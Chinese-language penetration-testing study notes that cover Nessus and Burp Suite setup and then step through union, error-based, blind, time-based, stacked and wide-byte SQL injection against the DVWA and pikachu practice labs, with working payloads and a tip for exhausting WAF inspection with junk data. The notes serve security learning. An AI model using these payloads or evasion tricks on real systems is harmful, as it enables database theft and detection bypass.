- 主机漏洞扫描工具主要是以商业化产品为主，很难像应用漏洞扫描器那样去找到免费版的工具
- Nessus安装
  - nessus的激活码申请网站：
    - https://zh-cn.tenable.com/products/nessus/activation-code?tns_redirect=true
  - Nessus的下载网站
    - https://www.tenable.com/downloads/nessus?loginAttempted=true
- 启动服务：
  - 访问地址i:https://localhost:8834

- 重点：主机漏洞扫描一般是全端口扫描，端口范围选择：1-65535
- 主机漏洞扫描器的扫描方式
  - 版本扫描
  - 原理扫描

## BurpSuite （渗透测试最重要工具）
- 通过命令行启动Burp
  - `java -jar xxx.jar`

- 设置JVM内存大小
  - 场景：当在渗透过程中，如果有成千上万个请求通过Burp，这时就可能会导致Burp Suite因内存不足而崩溃，从而丢失渗透测试过程中的相关数据。因此，当我们启动BurpSuite时，通常会指定它内存的大小，通常会指定2G，如果电脑内存足够，建议分配4G
  - 指令：`java -jar -Xmx2G /your_burp_path/burpsuite.jar`

- 原理：BurpSuite代理工具是以拦截代理的方式，拦截所有通过代理的网络流量，如客户端的请求数据，服务器端的返回信息等。BurpSuite主要拦截http和https协议的流量，通过拦截，BurpSuite以中间人的方式，可以对客户端请求数据、服务端返回做各种处理，以达到安全评估测试的目的。
- 在日常工作中，我们最常用的Web客户端就是浏览器，我们可以通过代理的设置，做到对浏览器的流量拦截，并对经过BurpSuite代理的流量数据进行处理。

- 配置代理：
  - 火狐浏览器的代理：
    - 设置 -> 常规 -> 网络设置 -> 手动配置代理 -> HTTP:127.0.0.1 -> 端口(p):8080
  - 全局代理(Windows 11)：
    - 电脑设置 -> 网络和Internet -> 代理 -> 手动设置代理 -> 地址：127.0.0.1 ，端口号：8080
    - 全局的缺点：
      - 会有很多垃圾请求，影响正常的数据包操作

- 手机抓包代理
  - 手机和电脑接入同一个WIFI，在电脑上确认WIFI的IP地址，即代理地址

### 数据拦截与控制
- Burp Proxy的拦截主要由`Intercept`选项卡中的Forward、Drop、Intercept is on/off、Action(右键)、Comment以及Highlight构成
  ```
  Forward：当查看过消息或者重新编辑过消息之后，点击此按钮，将发送消息至服务器端

  Drop：丢弃当前拦截的消息，不再forward到服务器端

  Intercept is on： 拦截功能打开，拦截所有通过Burp Proxy的请求数据
  Intercept is off：拦截功能关闭，不再拦截通过Burp Proxy的所有请求数据

  Action：将当前请求的消息传递到Scan、Repeater、Intruder、Sequencer、Decoder、Comparer组
  件，做一些请求消息的修改，如改变GET或者POST请求方式、改变请求body的编码，同时也可以改变请求消息
  的拦截设置，如不再拦截此主机的消息、不再拦截此IP地址的消息、不再拦截此种文件类型的消息、不再拦截
  此目录的消息，也可以指定针对此消息拦截它的服务器端返回消息。

  Comment：对拦截的消息添加备注，在一次渗透测试中，你通常会遇到一连串的请求消息，为了便于区分，在某个关键的请求消息上，你可以添加备注信息。

  Highlight：其功能与 Comment 有点类似，即对当前拦截的消息设置高亮，以便与其他的请求消息相区分

  ```

- 可选项配置Options
  - 客户端请求消息拦截（Intercept Client Requests）
    - Automatically fix missing or superfluous new lines at end of request (相当于容错处理，在请求头和请求体之间自动添加空行，一般不勾选)
    - Automatically update content-length header when the request is edited (一般勾选，用来自动更新修改后的请求文本长度)
  - 服务端返回消息拦截
    - 与请求消息拦截的参数，基本一致
  - 服务器返回消息修改
  - 正则表达式设置
  - 其他配置项

- 历史记录 HTTP histroy
  - Burp Proxy的历史记录一共由两个部分组成
  - HTTP history
    - 筛选过滤器
      - 按照请求类型进行过滤 Filter by request type
        - Show only in-scope items (先显示当前作用域)
        - Hide items without response (隐藏没有响应的请求)
        - Show only poarameterized requests (仅显示带参数的请求)
      - 控制服务端返回不同类型的消息 Filter by MIME type
        - HTML
        - Other text
        - Script
        - Images
        - XML
        - Flash
        - CSS
        - Other binary
      - 基于返回的状态码过滤 Filter by status code
        - 2XX
        - 3XX
        - 4XX
        - 5XX
      - 按照查找条件过滤 Filter by search term
        - 正则表达式
        - 大小写敏感
        - 否定查找
      - 按照文件类型过滤 Filter by file extension
      - 按照备注过滤 Filter by annotataion
      - 基于端口进行匹配 Filter by listener
    - 历史记录列表
    - 消息详情
  - WebSocket history（用不到）

### SSL和proxy高级选项
- HTTPS协议使为了数据传输安全的需要，在HTTP原有的基础上，加入了安全套接字层SSL协议，通过CA证书来验证服务器的身份，并对通信消息进行加密。基于HTTPS协议这些特性，我们在使用Burp Proxy代理时，需要加入更多的设置，才能拦截HPPTS的消息。
- CA证书的安装
  - 在HTTPS通信过程中，一个很重要的介质是CA证书
- Proxy监听设置
  - Binding
    - Add a new proxy listener
      - Loopback only    只监听本地
      - All interfaces   监听电脑上的所有接口
      - Specific address 监听指定地址
        - 在渗透测试中，无论你选择哪种模式，你需要明白一点，当你选择的非本地回路IP地址时，同局域网内的其他电脑也可以访问你的监听地址
  - Request handling(请求处理): 主要用来控制接收到Burp Proxy监听端口的请求后，如何对请求进行处理的，即使用burp再次转发（这里仅适用于http协议的网站）
  
  - 对于https协议的网站：设置具体的网站和对应转发的ip-端口
  
  - 使用brup二次转发的意义
    - 比如：客户端 -> Burp -> xray -> 服务端
    - 可以通过Burp对数据包处理，使处理后的数据包在经过xray的更改后，绕过WAF等安全设备的检测
    - WAF—网站应用防火墙，主要防护web端的检测
      - WAF对数据包的检测是有时间限制的，所以可以通过burp抓到数据包后，对其修改加入大量的垃圾信息，这样就可以消耗WAF的检测时间，使其在检测到xray添加的探测信息前就检测超时，成功绕过WAD的检测（总结就是利用无用数据消耗WAF的检测时间）
    - 主机端的检测一般使用：防火墙，IPS

### 使用Brup抓取Google数据包
- 原理：
  - 本地浏览器开启本地的8080端口的代理（我用的火狐浏览器）
  - 然后在burp中设置一个10808的本地端口代理，因为V2ray的代理端口是10808
  - 通过V2ray客户端将本地的10808端口和vps的443端口映射上
  - 这样就实现本地浏览器->burpsuite->vps->目标网站的通路
- 图例：(这里1080端口换成10808，43085换成443，是我自己的配置)

- 唯一重要的一步：


### Burp Target
- 概述：Burp Target组件主要包含站点地图、目标域、Target工具三部分组成
- 作用：可以帮助渗透测试人员更好地了解目标应用的整体状况，当前工作涉及哪些目标域、分析可能存在的攻击面等信息
#### 目标域设置Target Scope
- 使用场景：过滤其他垃圾网站流量，仅对指定网站/ip的数据包进行展示
- 设置过程：
  - 现在scope中，添加指定的拦截的网站
  
  - 然后在历史筛选中，选择show only in-scope items
  
  - scope模块使用高级设置，可以是信息颗粒度更加精细

#### 站点地图Site map
- 手工获取站点地图（被动扫描 ）
  - 设置浏览器代理和Burp Proxy代理，并使之能正常工作
  - 关闭Burp Proxy的拦截功能
  - 手工浏览网页，这时，Target会自动记录站点地图信息

- 攻击面分析
  - 右键选择要分析的站点，然后在下拉列中选择：Engagement tools中选择Analyze Target
  - 共有四个模块
    - Summary：数据汇总
    - Dynamic URLs：动态连接
    - Static URLs：静态连接
    - Parameters：参数
  - 动态连接和静态连接的区别：
    - 带参数的就是动态连接；不带参数的就是静态连接
    - 静态页面没有安全问题，动态URL才可能存在安全问题
  - 伪静态页面：
    - 不是静态，但是伪装为静态页面
    - 例如：
      - 原始格式：www.hack.com/public/js?id=5.3.1
      - 变形后：www.hack.com/public/js/5.3.1 伪装为静态页面

### Discover Content(爬虫功能)
- control
  - 对指定ip/域名进行主动爬取
- config
  - Target
  - Filenames:对爬取的文件进行设置（通常默认）
  - File Extensions(文件扩展名) 通常默认全选
- site map

### Burp Scan（扫描功能）
- 启动方法
  - 捕获按钮开启，实现被动爬取和审计（被动扫描）
    - 当使用被动扫描时，Burp几乎不额外构造请求进行爬虫和扫描，它根据用户浏览网页进行常规请求，对已经存在的请求和响应进行简单分析，这对系统检测比较安全，但是局限性比较强，通常适用于生产环境
  
  - 主动扫描：
  
  
    - 当使用主动扫描时，Burp会向应用发送新的请求并通过payload验证漏洞。
    - Scan details (略)
    - Scan configuration ：保持默认
    - Application login 应用登录
    - Resource pool 资源池
      - 控制资源请求的间隔数以及请求时间的间隔的

### Burp Intruder 爆破
- 概述：通常被渗透测试人员使用在各种爆破测试任务的场景中
- 主要学习内容
  - Intruder使用场景和操作步骤
  - Payload类型与处理
  - Payload位置和攻击类型
  - 可选项设置(Options)
  - Intruder攻击和结果分析

- 使用场景：
  - 标识符枚举：如；密码爆破
  - 提取有用的数据：枚举有用的文件id，以批量下载文件
  - 模糊测试 

- 基本使用方法
  - 在需要爆破的页面抓包
  - 右击空白处，得到菜单，send to Intruder
  - 其他，过于简单暂略

- payload的类型和处理
  - payload类型（payload type）
    - 简单列表（Simple list）：最简单的payload类型，通过配置一个字符串列表作为payload，也可以手工添加字符串列表或从文件加载字符串列表
    - 运行时文件（Runtime file）：在select file中加载文件，和第一种的加载文件属于相同的方法
    - 自定义迭代器（Custom iterator）：这是一个款功能强大的payload，它共有8个占位，每个占位可以指定简单列表的payload类型，然后根据占位的多少，与每个简单列表的payload进行笛卡尔积，生成最终的Payload列表。
    - 字符串替换(Character substitution)：此种Payload的类型是对预定义的字符串进行替换后生成新的Payload。
    - 大小写替换
    - 字符块（character blocks）：用于生成指定大小的字符块，表现形式为生成指定长度的字符串。它通常用来绕过应用防火墙WAF
    - 暴力字典
    - 空类型
    - 字符扮演者
    - 用户名生成器

- payload位置和攻击类型
  - 攻击类型
    - Sniper 狙击手模式：只能爆破一个参数位置
    - Battering ram 攻城锤模式：多个参数位置，用一个相同的数值爆破，基本用不上
    - Pitchfork 交叉模式：一一对应
    - Cluser bomb 集束炸弹模式：所有排列都有可能，多参数爆破，常用

- 可选项设置
  - 请求的消息头配置（Request Header）：一般保持默认不动
  - 请求引擎（Request Engine）的设置：
    - Number of threads: 并发线程数
    - Number of retries on network failure: 网络失败时重试次数
    - Pause before retry: 重试前的暂停时间间隔
    - Throttle between requests: 请求延时（毫秒）
    - Start time: 定时开始
  - 攻击结果设置：一般保持默认
  - Grep Match: 从响应消息中匹配结果项

### Burp Decoder 编码解码工具
### Burp Comparer
- 功能：提供一个可视化的差异对比功能，来对比分析两次数据之间的区别
- 使用场景：
  - 枚举用户名过程中，对比分析登录成功和失败时，服务端反馈结果的区别
  - 使用Intruder进行攻击时，对于不同服务器响应，可以很快的分析出两次响应的区别在哪里
  - 进行SQL注入的盲注测试时，比较两次响应消息的差异，判断响应结果与注入条件的关联关系


  


## 前端防御策略
- 用户输入之前进行判断：
  - 比如：（过滤）手机号只允许输入数字，很容易被绕过
- 用户输入之后进行判断
  - 在用户请求之后，在返回浏览器的终点进行转义，因为此时数据包已经脱离了攻击者的控制，因此不容易被绕过（比如：HTML实体编码）
  - 注意实体编码实在burp之后进行的，是响应数据包返回时

## SQL注入
- SQL注入前置知识点1
  - [非布尔值逻辑运算](../web/javascript.md#逻辑运算符)
- 概述：一般指Web应用程序对用户输入数据的合法性没有校验或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句结尾添加额外的SQL语句，在系统运维人员不知道的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询操作，从而进一步得到相应的数据信息
- 漏洞危害：
  - 危害较高的漏洞，可以获取敏感信息，修改信息，脱库，上传webshell，执行命令
- SQL注入的满足条件
  - 参数用户可控：前端向后端传递的参数内容是用户可以控制的
  - 参数带入数据库进行查询：传入的参数拼接到了SQL语句，且带入数据库进行查询  

### SQL注入分类
- 隐式转换
  - 仅对int类型的字段有效
    - 当传入或查询int类型的字符数据时，如果数据是字符型，则从第一个字符开始检测，依次向后知道非数字出现停止检测
  - 字符型没有隐式转换 
    ```sql
    SELECT * from geektime where id = '1abc'
    -- 如果id是int型，则相当于查询id = 1
    -- 如果id是字符型，则相当于查询id = '1abc'
    ```
- 判定用户输入类型
  - 分类
    - 数字型注入
    - 字符型注入
  - 根据该参数字段的类型决定，如果用户输入的参数，传递到后端的字段是数字型，则是数字型注入，如果传递到后端的字段是字符型的，就是字符型注入

  - 场景判定步骤
  ```md
  sql注入中，逃出字符串单引号的方法
  1' and 1 = 1 # 
  这里#将后面多余的'注释掉，使得后面的and 1=1 可以正常执行
  ```

### 联合查询注入（Union注入）
- 概述：联合查询是在一条SQL语句中执行多个查询任务，等同于将一个表追加到另一个表，从而实现将两个表的查询组合到一起，使用UNION或UNION ALL

- UNION操作符选取不重复的值；UNION ALL 选取重复的值
 - UNION注入的前提条件
  - UNION ALL的左右两边列数一致，页面上有显示位
    - 如何判断字段的查询数：
      - 使用ORDER BY，从1开始测试，2，3直至报错，如果是3报错，说明表格只有2列，无法排序第三列数据，否则继续向后测试

- 判断列数的目的
  - 为了构造联合注入的语句

- 显示位不够解决方案
```sql
-- 使用concat()将多个数值合并到一行显示
SELECT first_name,last_name
FROM users
WHERE user_id = 1 
UNION ALL
SELECT CONCAT(version(),',',database()),1

-- 在前端输入：
 1' union all select concat(version(),',',database()),1#
```

- information_schema数据库
  - 使用范围：在该数据库向前端开放的时候，可以使用这个方法进行sql注入 
  - information_schema概述
    - MySQL5.0以上版本，存在一个自带的数据库
    - information_schema数据库中有3个表非常重要：

```shell
  SCHEMATA: 表里包含所有数据库的名字
  TABLES：表里包含所有数据库的所有表，默认字段为table_name
  COLUMNS: 表里包含所有数据库的所有表的所有字段
```
- 联合注入的过程：
  - 判断注入点
  - 判断是整型还是字符型
  - 判断列数(order by),显示位
  - 获取目标数据库名
  - 获取目标数据库的所有表名，字段名，字段中的数据
- 实操：
```
求当前库名：
前端：
1' union select concat(database(),',',version()),1 #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT concat(database(),',',version()),1;

// 得出当前库名：dvwa,5.5.54-0+deb8u1-log

求所有数据库的库名：
前端：
1' union all select group_concat(SCHEMA_NAME),1 from information_schema.SCHEMATA #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(SCHEMA_NAME),1
FROM information_schema.SCHEMATA;

求当前数据库'dvwa'中的表名
前端：
1' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'dvwa' #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(TABLE_NAME),1
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = 'dvwa';

// 得出表名：guestbook,users

求users表中的所有字段名
前端
1' union all select group_concat(COLUMN_NAME),1 from information_schema.COLUMNS where TABLE_NAME = 'users'#

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(COLUMN_NAME),1
FROM information_schema.COLUMNS
WHERE TABLE_NAME = 'users';

// 得出所有字段名：
// user_id, first_name, last_name, user, password, avatar, last_login, failed_login

求users表中字段'first_name'的具体数据
前端
1' union all select first_name,last_name from users #

后端
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT first_name,last_name
FROM users;

```
### 报错注入
- 概述：
  - 报错注入顾名思义主要是利用数据库报错来进行判断是否存在注入点，如果不符合数据库语法规则就会产生错误

  - 在MySQL高版本（大于5.1版本）中添加了对XML文档进行查询和修改的函数，这两个函数常用于报错注入
  ```
  extractvalue()
  updatexml()

  原因：当这两个函数在执行时，如果出现XML文档路径错误就会产生报错
  ```

- 报错注入常用函数
  - extractvalue()函数
    - 功能：此函数从目标XML中返回包含所查询值得字符串。
    - 语法：`extractvalue(XML_document, xpath_string)`
      - 参数1：string格式，为XML文档对象的名称
      - 参数2：xpath_string（xpath格式的字符串），为XML文档的路径
    - extractvalue()使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误(xpath syntax)
    ```sql
    select user,password from users where user_id = 1
    and extractvalue(1,0x7e);

    select user,password from users where user_id = 1 
    and extractvalue(1,concat(0x7e,(select user()),0x7e))

    -- 由于0x7e就是~，~不属于xpath语法格式，因此报出xpath语法错误
    ```

- 报错注入的利用条件
  - 必须是MySQL报错，并且有报错返回前端
  - 必须要用到对应的报错函数触发函数语法规则的报错，MySQL本身的语法错误不会解析SQL语句，只有函数语法规则的报错才会解析SQL语句 
  - <font color=tomato>这里重点是，利用函数语法规则去解析SQL语句</font>

- 实操演示
```
求库名：
前端：
1' and extractvalue(1,concat(0x7e,database())) # 

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        database()
    )
);

// XPATH syntax error: '~dvwa'

求表名：
方法1：直接查询出所有的表名(有字符数量的限制)
前端：
1' and extractvalue(1,concat(0x7e,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) # 

后端： 
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT group_concat(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~guestbook,users'

方法2：先判断表的数量，然后再使用limit将需要的数据查询出来（当数据量很大的时候，可以使用这个方式）
表的数量查询
前端：
1' and extractvalue(1,concat(0x7e,(select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~2'

根据表的数量，查询指定数据
前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~guestbook'

前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 1,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 1,1
        )
    )
);

// XPATH syntax error: '~users'

求字段：
先求出字段的数量
前端：
1' and extractvalue(1,concat(0x7e,(select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(COLUMN_NAME)
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
        )
    )
);

// XPATH syntax error: '~8'

根据列数查询列名
前端：
1' and extractvalue(1,concat(0x7e,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT COLUMN_NAME
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~user_id'

根据列名查找实际数据
前端：
1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id = 1))) #

后端：
因为报错注入有字符长度限制，因此优先查询目标数据的字符长度
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT length(password)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~32'

密码总长度为32位，需要33位空位，少一位，使用substr()函数
前端：
1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id = 1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT substr(password,32,1)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~9' 最后一位密码是9
```
- updatexml()函数
  - updatexml()是一个使用不同的XML标记匹配和替换XML块的函数
  - 作用：改变文档中符合条件的节点的值
  - 语法：updatexml(XML_document,xpath_string,new_value)
    - 第一个参数：是string格式，为XML文档对象名称
    - 第二个参数；代表路径，xpath格式的字符串，例如//title
    - 第三个参数：string格式，替换查找到的符合条件的数据
```
爆库名：
前端：
1' and updatexml(0x7e,concat(0x7e,database()),0x7e);#

后面和extractvalue()的注入方法相同
```

### 盲注
#### 布尔盲注
- 概述：只会根据注入信息返回True或者False，没有之前的查询信息或报错信息
- 判断方法：
  - 不管输入框输入什么内容，页面上只会返回两种情况，真或假，说明存在SQL盲注
  ```
  只输入1' and 1 = 1 #   可以证明存在SQL注入
  只输入1' and 1 = 2 #   不可以证明存在SQL注入
  ```

- 操作方法：
```
猜解当前数据库名称的长度（二分法思维）

1' and length(database()) > 10; #  MISSING
1' and length(database()) > 5; #  MISSING
1' and length(database()) > 3; #  exists
1' and length(database()) = 4; #  exists

# 由此可判断出当前连接数据库名称的长度=4
```
```
判断数据库名称的字符组成元素
利用和ascii码的数值比较，来判断单个字符的具体值,ascii码共128个
 
1' and ascii(substr(database(),1,1)) > 64; #  exists
1' and ascii(substr(database(),1,1)) > 127; #  MISSING
···
1' and ascii(substr(database(),1,1)) = 100; #  exists

# 由此判断第一个字符的ascii码值为100，符号是'd'
# 以此类推，将后续的字符都测试出来，4次后可以得出'dvwa'的结果
```
```
爆表名，同样是先判断长度，后判断字符的ascii码数值

判断'dvwa'数据库中的表的个数

1' and (select count(table_name)>10 from information_schema.tables where table_schema = database()); #   
-- MISSING

1' and (select count(table_name)>5 from information_schema.tables where table_schema = database()); #   
-- MISSING

... 以此类推

1' and (select count(table_name)=2 from information_schema.tables where table_schema = database()); #   
-- exists

// 得出结果，数据库'dvwa'里共有2张表
```
```
猜解表名
猜解dvwa数据库中第一张表的名称字符长度

1' and (select length(table_name)>10 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select length(table_name)>5 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

...以此类推

1' and (select length(table_name)=9 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 得出结果，数据库'dvwa'的第一个表的长度是9
```
```
猜解dvwa数据库第一张表的ascii码字符值

1' and (select ascii(substr(table_name,1,1))>128 from information_schema.tables where table_schema = database() limit 0,1); #
-- MISSING

1' and (select ascii(substr(table_name,1,1))>100 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

...以此类推

1' and (select ascii(substr(table_name,1,1))=103 from information_schema.tables where table_schema = database() limit 0,1); #
-- exists

// 可以得出结论，第一个字符是g

... 

// 用同样的方法，去遍历全部9个字符，可以得出，第一表为'guestbook'
// 同理可得，第二个表的名字为'users'

```
```
猜解字段名
先判断有多少个字段 -> 然后判断每个字段的长度 -> 判断每个字段的具体ascii码值

判断字段的数量

1' and (select count(column_name)>10 from information_schema.columns where table_name = 'users'); #
-- MISSING

1' and (select count(column_name)>5 from information_schema.columns where table_name = 'users'); #
-- exists

... 以此类推

1' and (select count(column_name)=8 from information_schema.columns where table_name = 'users'); #
-- exists

// 得出结论：表users共有8个字段
```
```
判断每个字段的长度（以第一个字段为例）

1' and (select length(column_name)>10 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

1' and (select length(column_name)>5 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

...以此类推

1' and (select length(column_name)=7 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users第一个字段的长度为7
```
```
遍历判断第一个字段的字符，以第一个字段的第一个字符为例

1' and (select ascii(substr(column_name,1,1))>100 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

1' and (select ascii(substr(column_name,1,1))>120 from information_schema.columns where table_name = 'users' limit 0,1); #
-- MISSING

...以此类推

1' and (select ascii(substr(column_name,1,1))=117 from information_schema.columns where table_name = 'users' limit 0,1); #
-- exists

// 得出结论：表users的第一个字段的第一个字符的ascii码为117，对应的字符为'u'

...用同样的方法遍历所有的字符

// 得出表users的第一个字段为：'user_id'
```
```
字段名的另一个猜测方式
直接判断某个字段是否存在

1' and (select count(*)=1 from information_schema.columns where table_schema=database() and table_name='users' and column_name='password'); #
-- exists

// 结论证明字段中存在'password'

...不停的更换column_name='???' 的值，根据返回结果判断所需字段名
```

#### 时间盲注
- 使用场景：
  - 界面返回值只有一种True，无论输入任何值，返回情况都会按正常的来处理。加入特定的时间函数，通过查看WEB页面返回的时间差来判断注入的语句是否正确

- 方法：
  - 对于if(判断条件,sleep(n),1)函数而言，若判断条件为真，则执行sleep(n)函数，达到在正常响应时间的基础上再延迟响应时间n秒的效果；若判断条件为假，则返回设置的1，此时不会执行sleep(n)函数
  ```
  1' and if(length(database())=4,sleep(5),1);#\
  // 5s后响应，由此得出：当前数据库名的长度为4
  ```

### 堆叠查询注入
- 概述：在MySQL中，主要是命令行中，每一条语句结尾加;(分号)表示语句结束。这样我们就想到是不是可以多句一起使用。其原理也很简单，就是将原来的的语句构造完后加上分号，代表该语句结束，后面在输入的就是一个全新的sql语句了，这个时候使用增删改查毫无限制

- 使用条件：
  - 堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制，只有当调用数据库函数支持执行多条sql语句时才能够使用，利用mysqli_multi_query()函数就支持多条sql语句同时执行。但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_query函数，只能执行一条语句，分号后面的内容将不会被执行，所以说堆叠注入的使用条件十分有限，一旦能够被使用，可能对网站造成很大的影响

- 示例
```sql
select * from users; show databases;
-- 第一条语句查询表，第二条查询当前数据库名
```

### 二次注入
- 场景：通常与代码审计配合使用
- 概述：二次注入通常是指在存入数据库的时候做了过滤，但是取出来的时候没有做过滤，而产生的数据库注入
- 步骤：
  1. 插入恶意数据: 
  <br>在第一次向数据库插入数据的时候，仅仅只是使用了addslashes函数对其中的特殊字符进行了转义，但是addslashes函数有一个特点就是虽然参数在过滤后会添加"\"进行转义，但"\"并不会插入到数据库中，在写入数据库的时候还是保留了原来的数据。
  2. 引用恶意数据
  <br>在将数据存入到数据库中之后，开发者就认为数据是可信的。在下一次进行需要进行查询的时候，直接从数据库中去除了脏数据，没有进行进一步的检验和处理，这样就会造成SQL的二次注入
  <br>
  <br>比如在第一次插入数据的时候，数据中带有单引号，直接插入到了数据库中；然后再下一次使用中再拼凑的过程中，就形成了二次注入

### 宽字节注入
- 靶场下载
```
docker pull area39/pikachu
docker run -d -p 80:80 area39/pikachu

# 点击红色字体进行初始化
```
- 宽字节概念
  - 单字节字符集：所有的字符都使用一个字节来表示，比如ASCII编码(0~127)
  - 多字节字符集：在多字节字符集中，一部分字符用多个字节表示，另一部分(可能没有)用单个字节表示
  - 宽字节注入时利用mysql的一个特性，使用<font color=tomato>GBK编码</font>的时候，会认为两个字符是一个汉字
  - 只有使用GBK编码时，才可能是宽字节注入

- 宽字节注入原理
  - 为了防止网站被SQL注入，一些网站开发人员会做一些防护措施，其中最常见的就是对一些特殊字符进行转义，通过前面的学习可以了解到，SQL注入非常关键的一步就是让引号闭合和跳出引号
  - 网站开发者也想到了这一步，于是做了防护措施：转义，对输入的敏感内容，特殊字符进行转义
  - addslashes()函数
    - addslashes()函数在预定义字符之前添加反斜杠(\)进行转义
    - 预定义字符：单引号、双引号、反斜杠、NULL
  - 字符型的注入点，一般都用单引号来判断，但是当遇到addslashes()时，单引号会被转义，导致我们判断注入点的单引号失效。所以我们的目的就是使用转义符\失效，使单引号逃逸。
```
利用burp抓包
在注入点输入：
kobe%df' or 1=1 #

拦截数据包，发现数据包中的数据是：
kobe%25df%27+or+1%3D1+%23

其中：经过URL编码后
% -> %25
' -> %27
空格 -> +
= -> %3D
# -> %23

实际目的是为了把后面加在'前面的\解析掉
所以是%df+'\'
把25在数据包中删除，变为：
kobe%df%27+or+1%3D1+%23

通过数据包，得到正确结果，\被成功解析掉
```
- 原理：
  - 前端输入的反斜杠\经过ULR编码后是%5c。在输入%df后，使得添加反斜杠后形成%df%5c，如果程序数据库使用了GBK编码，%df%5c会被识别成繁体字“连”，单引号成功逃逸。整个过程的关键点在于单引号前面的%df,造成宽字节注入使得单引号逃逸成功并闭合语句，才有了后面的操作
  
- 实操：
```
爆库名：(使用pikachu靶场)
判断字段列数

kobe%df' union all select 1,2 #

// 成功出现数据，证明查询字段为2

查询当前库名：

kobe%df' union all select database(),version() #

-- your uid:pikachu
-- your email is: 5.7.26-0ubuntu0.18.04.1-log

// 成功爆出当前的库名为：pikachu
```
```
爆表名
判断当前数据库中的表的个数

kobe%df' union all select count(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:5
-- your email is: 1

// 成功爆出pikachu数据库下有5个表
// 感觉5个表名，同时爆，应该不会超字符数量限制，尝试使用group_concat()

然后爆表名：

kobe%df' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() #

-- your uid:httpinfo,member,message,users,xssblind 
-- your email is: 1

// 成功爆出所有表名

爆字段名(以member表为例)

kobe%df' union all select group_concat(column_name),1 from information_schema.COLUMNS where TABLE_NAME = (select TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = database() limit 1,1)#

-- your uid:id,username,pw,sex,phonenum,address,email 
-- your email is: 1

// 成功爆出所有字段名：id,username,pw,sex,phonenum,address,email
```

### http header和cookie注入
- 概述：HTTP头部注入并不是一个新的SQL注入类型，而是指出现SQL注入漏洞的场景，有时候，后台开发人员为例验证客户端头信息(比如常用的cookie验证)，或者通过http header头信息获取客户端的一些资料，比如useragent，accept字段等，会获取客户端的http header信息并使用SQL进行处理，如果此时没有足够的安全考虑，则可能会导致基于http header的SQL注入漏洞

### 从MySQL注入到GetShell
